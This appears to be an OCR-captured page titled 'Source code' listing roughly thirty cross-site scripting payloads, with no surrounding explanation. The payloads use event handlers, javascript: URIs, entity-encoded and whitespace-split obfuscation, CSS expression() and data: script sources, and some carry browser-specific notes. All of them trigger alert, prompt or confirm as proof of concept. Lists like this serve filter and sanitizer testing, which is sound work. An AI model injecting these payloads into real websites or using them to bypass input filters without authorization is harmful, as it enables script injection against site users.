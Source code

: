 &lt;iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'&gt;

&lt;a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;&gt;X&lt;/a&gt;

&lt;style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;&gt;

&lt;///style///&gt;&lt;span %2F onmousemove='alert&lpar;1&rpar;'&gt;SPAN

&lt;img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)

&#34;&#62;&lt;svg&gt;&lt;style&gt;{-o-link-source&colon;'&lt;body/onload=confirm(1)&gt;'

&#13;&lt;blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)&gt;OnMouseOver {Firefox & Opera}

&lt;marquee onstart='javascript:alert&#x28;1&#x29;'&gt;^__^

&lt;div/style="width:expression(confirm(1))"&gt;X&lt;/div&gt; {IE7}

&lt;iframe/%00/ src=javaSCRIPT&colon;alert(1)

/*iframe/src*/&lt;iframe/src="&lt;iframe/src=@"/onload=prompt(1) /*iframe/src*/&gt;

&lt;/font&gt;/&lt;svg&gt;&lt;style&gt;{src&#x3A;'&lt;style/onload=this.onload=confirm(1)&gt;'&lt;/font&gt;/&lt;/style&gt;


&lt;a/href="javascript:&#13; javascript:prompt(1)"&gt;&lt;input type="X"&gt;

&lt;/plaintext\&gt;&lt;/|\&gt;&lt;plaintext/onmouseover=prompt(1)

&lt;/svg&gt;''&lt;svg&gt;&lt;script 'AQuickBrownFoxJumpsOverTheLazyDog'&gt;alert&#x28;1&#x29; {Opera}

&lt;a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"&gt;&lt;button&gt;

&lt;div onmouseover='alert&lpar;1&rpar;'&gt;DIV&lt;/div&gt;

&lt;iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)"&gt;

&lt;a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;"&gt;X&lt;/a&gt;

&lt;var onmouseover="prompt(1)"&gt;On Mouse Over&lt;/var&gt;

&lt;img src="/" =_=" title="onerror='prompt(1)'"&gt;

&lt;%&lt;!--'%&gt;&lt;script&gt;alert(1);&lt;/script --&gt;

&lt;script src="data:text/javascript,alert(1)"&gt;&lt;/script&gt;

&lt;iframe/src \/\/onload = prompt(1)

&lt;iframe/onreadystatechange=alert(1)

&lt;svg/onload=alert(1)

&lt;input value=&lt;&gt;&lt;iframe/src=javascript:confirm(1)

&lt;input type="text" value=`` &lt;div/onmouseover='alert(1)'&gt;X&lt;/div&gt;

http://www.&lt;script&gt;alert(1)&lt;/script .com

&lt;iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29&gt;&lt;/iframe&gt;
